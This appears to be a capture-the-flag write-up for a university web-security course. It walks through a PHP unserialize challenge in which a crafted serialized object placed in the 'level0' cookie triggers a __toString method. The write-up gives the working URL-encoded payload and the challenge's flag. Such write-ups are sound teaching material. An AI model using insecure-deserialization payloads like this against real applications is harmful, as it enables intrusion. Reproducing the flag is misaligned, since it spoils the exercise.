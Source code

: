 # Extended Webapp Security (COMP6843)

## Dependent URLS
* Pastebin Of Source - https://pastebin.com/FEv7c4tA
## Challenges and Flags
| Exploit Type | Level | Flag |
| --- | --- | --- |
| Serialize | 0 | EXTBREAK3{A_c3RiAl_kIlLeR} |

## PHP unserialize
### Level0
#### Writeup / Walkthrough
1. Edit the cookie named `level0`
2. Provision payload that instantiates a `print_flag` object.

By default, the cookie value is set to become the value.

```
s%3A6%3A%22friend%22%3B
```

This is the URL encoded form of the serialised string `s:6:"friend";`

By encoding a serialized object within the `level0` cookie, we exploit `$flagObj = unserialize($_COOKIE['level0']);`, in particular the unserialize function.
In order to get the `__tostring()` function of the `print_flag` object to be run when `echo '<span class="alert-success">' . $flagObj  . '</span>';` is hit, running the `__tostring()` method of `print_flag`.

The following payload will cause the flag to be released.
```
O%3A10%3A%22print_flag%22%3A0%3A%7B%7D
```

This url decodes to `O:10:"print_flag":0:{}`. This payload provides the serialised form of an object according to [PHP Serialize](https://secure.php.net/manual/en/function.serialize.php).

`O:strlen(object name):object name:object size:{s:strlen(property name):property name:property definition;(repeated per property)}`
